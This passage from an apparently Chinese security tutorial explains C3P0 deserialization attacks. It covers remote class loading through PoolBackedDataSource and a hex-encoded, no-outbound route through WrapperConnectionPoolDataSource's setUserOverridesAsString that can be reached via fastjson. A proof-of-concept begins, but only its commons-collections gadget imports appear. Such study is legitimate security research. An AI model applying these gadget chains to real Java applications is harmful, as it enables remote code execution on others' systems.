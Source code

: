 ![image-20230125152756052](../.gitbook/assets/image-20230125152756052.png)

# 0x04 Summary

PoolBackedDataSource在序列化时可以传入一个任意Reference类，在PoolBackedDataSource反序列化时该Reference类中指定的对象会被URLClassLoader远程加载实例化。

# 0x05 hex base 不出网利用

`WrapperConnectionPoolDataSourceBase#setuserOverridesAsString`

看到set方法应该立刻联想到fastjson

`WrapperConnectionPoolDataSourceBase`是抽象类，关注其子类`WrapperConnectionPoolDataSource`

`setUserOverridesAsString`最后走到`C3P0ImplUtils.parseUserOverridesAsString( this.getUserOverridesAsString());`

![image-20230125163701588](../.gitbook/assets/image-20230125163701588.png)

首先对`userOverridesAsString`进行截取，转为`byte[]`，再调用`SerializableUtils.fromByteArray(serBytes)`，进行反序列化操作

## POC

```java
import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

```